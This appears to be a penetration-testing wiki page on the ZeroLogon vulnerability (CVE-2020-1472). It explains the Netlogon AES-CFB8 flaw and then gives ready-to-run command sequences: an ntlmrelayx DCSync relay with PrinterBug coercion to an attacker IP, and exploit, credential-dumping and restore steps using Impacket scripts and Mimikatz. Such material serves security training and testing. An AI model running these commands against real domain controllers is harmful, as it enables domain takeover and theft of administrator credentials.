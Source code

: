 ```yaml
---
description: CVE-2020-1472
---
```


# ZeroLogon

## Theory

Netlogon is a service verifying logon requests, registering, authenticating, and locating domain controllers. MS-NRPC, the Netlogon Remote Protocol RPC interface is an authentication mechanism part of that service. MS-NRPC is used primarily to maintain the relationship between a machine and its domain, and relationships among domain controllers \(DCs\) and domains.

The CVE-2020-1472 findings demonstrated that MS-NRPC used a custom and insecure cryptographic protocol \(i.e. it reuses a known, static, zero-value Initialization Vector \(IV\) in an AES-CFB8 mode\) when establishing a Netlogon Secure Channel connection to a Domain Controller allowing for an Elevation of Privilege vulnerability.

There were many concepts to understand in the original exploit scenario \(the "[password change](zerologon.md#password-change-disruptive)" one\).

* **Concept \#1**: authentication through MS-NRPC uses AES-CFB8. This means that for 1 in 256 possibilities, every block of the ciphertext will be `\x00` bytes if both the IV and the plaintext are `\x00` bytes.
* **Concept \#2**: authentication through MS-NRPC uses a static and null IV \(only `\x00` bytes, hence partly validating concept \#1\).
* **Concept \#3**: MS-NRPC signing and sealing don't rely on the same vulnerable mechanisms but are optional and can be ignored.
* **Concept \#4**: machine accounts have an unlimited number of login attempts, hence allowing for an authentication bypass and the spoofing of these accounts thanks to concepts \#1 and \#2 \(by using a plaintext filled with `\x00` bytes and by doing enough attempts\).
* **Concept \#5**: the `NetrServerPasswordSet2`  call can be used to reset an account's password. The new password structure to supply in this call has to be encrypted with the same vulnerable mechanisms stated in concepts \#1 and \#2.
* **Concept \#6**: the password structure can be filled with `\x00` bytes, leading to the setting a new password of a 0 characters length for the target account.
* **Concept \#7**: all previous concepts can be chained to reset a domain controller's password and obtain domain-admin privileges.

## Practice

### Authentication relay technique

Another technique, [showcased by Dirk-jan](https://dirkjanm.io/a-different-way-of-abusing-zerologon/) no later than 2 weeks after the public disclosure, highlighted another way of exploiting the vulnerability. That technique relies on a [relayed authentication](../lm-and-ntlm/relay.md) to directly operate a [DCSync](../credentials/dumping/dcsync.md), hence having no impact on the continuity of services.

In order to operate the attack, the [Impacket](https://github.com/SecureAuthCorp/impacket)'s script [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) \(Python\) can be used.

```bash
ntlmrelayx -t dcsync://$domain_controller_2 -smb2support
```

Once the relay servers are up and running and waiting for incoming trafic, attackers need to coerce a Domain Controller's authentication \(or from another account with enough privileges\). One way of doing this is to rely on the [PrinterBug](../mitm-and-coerced-authentications/ms-rprn.md).

```bash
dementor.py -d $domain -u $user -p $password $attacker_ip $domain_controller_1
```

### Password change \( ⚠ disruptive\)

{% hint style="danger" %}
This technique can break the domain's replication services hence leading to massive disruption, running the following "password change" technique is **not advised**.
{% endhint %}

This exploit scenario changes the NT hash of the domain controller computer account in Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent disruption as much as possible, attackers can try to exploit the CVE, find the NT hash of the Domain Controller account before it was changed, and set it back in Active Directory.

{% tabs %}
{% tab title="UNIX-like" %}
The original attack path can be conducted from UNIX-like systems with the following Python scripts.

* [Secura BV's scanning PoC](https://github.com/SecuraBV/CVE-2020-1472)
* [Dirk-Jan's exploit script](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
* [Dirk-Jan's restore script](https://github.com/dirkjanm/CVE-2020-1472/blob/master/restorepassword.py)

```bash
# Scan for the vulnerability
zerologon-scan 'DC_name' 'DC_IP_address'

# Exploit the vulnerability: set the NT hash to \x00*8
zerologon-exploit 'DC_name' 'DC_IP_address'

# Obtain the Domain Admin's NT hash
secretsdump -no-pass 'Domain'/'DC_computer_account$'@'Domain_controller'

# Obtain the machine account hex encoded password with the domain admin credentials
secretsdump -hashes :'NThash' 'Domain'/'Domain_admin'@'Domain_controller'

# Restore the machine account password
zerologon-restore 'Domain'/'DC_account'@'Domain_controller' -target-ip 'DC_IP_address' -hexpass 'DC_hexpass'
```
{% endtab %}

{% tab title="Windows" %}
The attack can also be conducted from Windows systems with [Mimikatz](https://github.com/gentilkiwi/mimikatz) \(C\).

```bash
# Scan for the vulnerability
lsadump::zerologon /target:'Domain_controller' /account:'DC_account$'

# Exploit the vulnerability: set the NT hash to \x00*8
lsadump::zerologon /exploit /target:'Domain_controller' /account:'DC_account$'

# Obtain the krbtgt by DCSync
lsadump::dcsync /domain:'Domain' /dc:'Domain_controller' /user:'Administrator' /authuser:'DC_account$' /authdomain:'Domain' /authpassword:'' /authntlm

# Reset the DC account's password in AD and in its SAM base
lsadump::postzerologon /target:'Domain_Controller' /account:'DC_account$'

# (alternative to postezerologon) Find the previous NT hash
//TODO

# (alternative to postezerologon) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'Domain_controller' /user:'DC_account$' /oldntlm:'31d6cfe0d16ae931b73c59d7e0c089c0' /newntlm:'previous_NThash'
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://www.secura.com/blog/zero-logon" caption="" %}

{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %}



